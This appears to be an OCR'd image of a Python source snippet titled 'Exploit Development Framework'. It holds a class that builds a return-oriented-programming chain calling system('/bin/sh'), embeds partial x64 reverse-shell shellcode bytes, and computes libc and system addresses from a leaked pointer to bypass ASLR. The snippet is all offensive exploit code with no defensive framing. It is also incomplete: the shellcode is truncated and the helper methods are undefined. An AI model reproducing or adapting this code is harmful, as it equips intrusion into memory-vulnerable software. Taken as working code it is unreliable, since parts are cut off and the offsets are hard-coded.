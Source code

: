 ```python
```

**Exploit Development Framework**:
```python
# Exploit development utilities
class ExploitDevelopment:
    def __init__(self):
        self.gadgets = []
        self.shellcodes = {}
        self.bypasses = {}
    
    def generate_rop_chain(self, binary_path, target_function):
        """Generate ROP chain for exploitation"""
        # Find gadgets
        gadgets = self.find_gadgets(binary_path)
        
        # Build ROP chain
        rop_chain = []
        rop_chain.append(gadgets['pop_rdi'])  # First argument
        rop_chain.append(gadgets['bin_sh'])   # "/bin/sh" string
        rop_chain.append(gadgets['system'])   # system() call
        
        return self.pack_addresses(rop_chain)
    
    def generate_shellcode(self, arch='x64', payload='reverse_shell'):
        """Generate architecture-specific shellcode"""
        if arch == 'x64':
            if payload == 'reverse_shell':
                # x64 reverse shell shellcode
                shellcode = (
                    b"\x48\x31\xc0\x48\x31\xff\x48\x31\xf6\x48\x31\xd2"
                    b"\x4d\x31\xc0\x6a\x02\x5f\x6a\x01\x5e\x6a\x06\x5a"
                    b"\x6a\x29\x58\x0f\x05\x49\x89\xc0\x48\x31\xf6\x4d"
                    b"\x31\xd2\x41\x52\xc6\x04\x24\x02\x66\xc7\x44\x24"
                    # ... continue shellcode
                )
                return shellcode
        
        return None
    
    def bypass_aslr(self, info_leak):
        """Calculate base addresses from information leak"""
        # Parse leaked address
        leaked_addr = int(info_leak, 16)
        
        # Calculate offsets
        libc_base = leaked_addr - 0x21b97  # Offset to libc base
        stack_addr = self.leak_stack_address()
        
        return {
            'libc_base': libc_base,
            'system': libc_base + 0x4f440,
            'bin_sh': libc_base + 0x1b3e9a,
            'stack': stack_addr
        }
```
